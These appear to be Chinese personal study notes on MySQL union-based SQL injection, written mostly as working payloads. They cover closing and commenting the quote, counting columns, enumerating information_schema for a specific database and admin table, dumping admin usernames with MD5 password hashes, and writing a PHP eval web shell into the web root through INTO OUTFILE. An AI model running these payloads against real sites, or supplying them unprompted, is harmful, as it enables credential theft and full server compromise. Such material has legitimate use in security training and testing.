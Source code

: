  * `多出来的单引号怎么样解决？`

 * `①闭合单引号 1' union select * from users and '1'='1`

 * `②注释单引号 1' union select * from users--` 

 * `Mysql的注释符有三个：# --空格 单行注释 多行注释`

 * `注释符 -- 后面要跟空格，或者用 #，否则可能没有正确屏蔽后面的原 SQL`

 * `目前为止有几个问题需要解决`

 * `①管理员表叫什么？`

 * `②管理员表有多少列？联合查询需要表的列数相同`

 * `使用 1' order by 4 --空格（空格用+或者%20来代替） 来检测 报错说明列数小于4`

 * `当知道数据库列数为3后 联合查询 建一个虚拟表 1' unnion select 1,2,3--+`

 * `但是有个问题id为1时是在数据库表中能够查到的，所以会返回id为1的值，所以可以将id改为-1让它查不到`

 * `改为-1后页面回显来联合查询时的2，3 说明二、三字段是数据库的回显内容`

 * `欧克接下来重要了 可以将之前虚拟表的2，3字段替换为函数user（），database（）最终就出来了第三个问题结果！`

 * `就差管理员表？`

 * `③目前所在数据库的名字以及目前用户的权限以及该数据库网站版本`

 * `管理员表怎么查？ mysql自带数据库 叫做information_schema 有所有数据库 数据表的信息 1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='jckj'--+`------这里可能会出现表名得单引号在被读取时失效--------所以可以将表名转换为十六进制------前缀是0x

 * ![image-20250424201254737](C:\Users\30493\AppData\Roaming\Typora\typora-user-images\image-20250424201254737.png)

 * `表知道了，查字段  1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='jckj' and table_name='wkcx_admin'--+`

 * ![image-20250424201717384](C:\Users\30493\AppData\Roaming\Typora\typora-user-images\image-20250424201717384.png)

 * `通过这个库查到 >管理员表名 >管理员表的字段名 1' union select 1,group_concat(admin_name,0x3a,admin_pwd),3 from wkcx_admin--+`

 * ![image-20250424202239395](C:\Users\30493\AppData\Roaming\Typora\typora-user-images\image-20250424202239395.png)

 * 最后查出的结果是密码被md5加密，可以尝试解密

 * `字符型注入 联合查询` 

 * `有单引号作为字符型 如果没有单引号就叫数字型`
   `*/`

 * 查出数据库后如果目标允许文件上传：可以上传webshell，例如：

 * `1' union select "<?php @eval(\$_POST['cmd']); ?>" into outfile '/usr/local/nginx/html/shell.php'--+`

 * 上传之前可以先测试一下目录可不可写：`SELECT "test" INTO OUTFILE '/usr/local/nginx/html/test.txt';`
